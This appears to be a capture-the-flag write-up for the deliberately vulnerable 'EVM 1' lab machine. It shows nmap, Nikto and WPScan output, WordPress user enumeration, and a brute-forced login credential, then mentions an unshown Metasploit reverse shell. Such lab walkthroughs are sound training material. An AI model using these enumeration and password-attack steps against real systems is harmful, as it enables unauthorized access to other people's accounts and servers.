



# EVM 1

Starting with the nmap scan
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-05 21:12 IST
Nmap scan report for 192.168.1.9
Host is up (0.00030s latency).
Not shown: 993 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
MAC Address: 08:00:27:D1:98:44 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)


Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-05 21:13 IST
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 92.81% done; ETC: 21:13 (0:00:02 remaining)
Nmap scan report for 192.168.1.9
Host is up (0.00033s latency).
Not shown: 993 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey:
|   2048 a2:d3:34:13:62:b1:18:a3:dd:db:35:c5:5a:b7:c0:78 (RSA)
|   256 85:48:53:2a:50:c5:a0:b7:1a:ee:a4:d8:12:8e:1c:ce (ECDSA)
|_  256 36:22:92:c7:32:22:e3:34:51:bc:0e:74:9f:1c:db:aa (ED25519)
53/tcp  open  domain
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp  open  http
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3
|_pop3-capabilities: CAPA UIDL SASL TOP AUTH-RESP-CODE RESP-CODES PIPELINING
139/tcp open  netbios-ssn
143/tcp open  imap
|_imap-capabilities: more have post-login capabilities listed LOGIN-REFERRALS LITERAL+ Pre-login OK IMAP4rev1 ID ENABLE SASL-IR LOGINDISABLEDA0001 IDLE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:D1:98:44 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
|_nbstat: NetBIOS name: UBUNTU-EXTERMEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu-extermely-vulnerable-m4ch1ine
|   NetBIOS computer name: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE\x00
|   Domain name: \x00
|   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
|_  System time: 2025-01-05T10:43:08-05:00
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
| smb2-time:
|   date: 2025-01-05T15:43:07
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Nmap done: 1 IP address (1 host up) scanned in 42.90 seconds
```
Which is running a http server

Visiting it gives us


Running Nikto Scan gives is
```
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.1.9
+ Target Hostname:    192.168.1.9
+ Target Port:        80
+ Start Time:         2025-01-05 21:18:13 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 2a45, size: 5964d0a414860, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.18 appears to be outdated (current is at least 2.4.57). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /info.php: Output from the phpinfo() function was found.
+ /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /info.php?file=http://cirt.net/public/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ RFC-1918 /wordpress/wp-admin/: IP address found in the 'location' header. The IP is "192.168.56.103". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.
+ RFC-1918 /wordpress/: IP address found in the 'link' header. The IP is "192.168.56.103". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /wordpress/: A Wordpress installation was found.
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wordpress/wp-content/uploads/: Directory indexing found.
+ /wordpress/wp-content/uploads/: Wordpress uploads directory is browsable. This may reveal sensitive information.
+ /wordpress/wp-login.php: Wordpress login found.
+ 8102 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2025-01-05 21:18:36 (GMT5.5) (23 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Its also running Wordpress, trying to find the wordpress username 
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.1.9/wordpress/ [192.168.1.9]
[+] Started: Sun Jan  5 21:42:17 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.1.9/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.1.9/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.1.9/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.1.9/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.4 identified (Insecure, released on 2019-10-14).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.1.9/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.2.4'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.1.9/wordpress/, Match: 'WordPress 5.2.4'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:10 <================================================================================> (10 / 10) 100.00% Time: 00:00:10

[i] User(s) Identified:

[+] c0rrupt3d_brain
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jan  5 21:43:32 2025
[+] Requests Done: 25
[+] Cached Requests: 27
[+] Data Sent: 6.539 KB
[+] Data Received: 31.673 KB
[+] Memory used: 138.051 MB
[+] Elapsed time: 00:01:14
```
We have a user `c0ccupt3d_brain` and now trying to find the password for this 
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.1.9/wordpress/ [192.168.1.9]
[+] Started: Sun Jan  5 23:10:26 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.1.9/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.1.9/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.1.9/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.1.9/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.4 identified (Insecure, released on 2019-10-14).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.1.9/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.2.4'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.1.9/wordpress/, Match: 'WordPress 5.2.4'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===============================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0rrupt3d_brain / 24992499
Trying c0rrupt3d_brain / 24992499 Time: 00:03:25 <                                                                  > (10700 / 14355091)  0.07%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: c0rrupt3d_brain, Password: 24992499

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jan  5 23:14:26 2025
[+] Requests Done: 10866
[+] Cached Requests: 4
[+] Data Sent: 3.799 MB
[+] Data Received: 48.364 MB
[+] Memory used: 297.781 MB
[+] Elapsed time: 00:04:00
```
now we have the username as `c0rrupt3d_brain` and password as `24992499`

now we can start a reverse shell with Metasploit


And there you have it; We solved the Box!
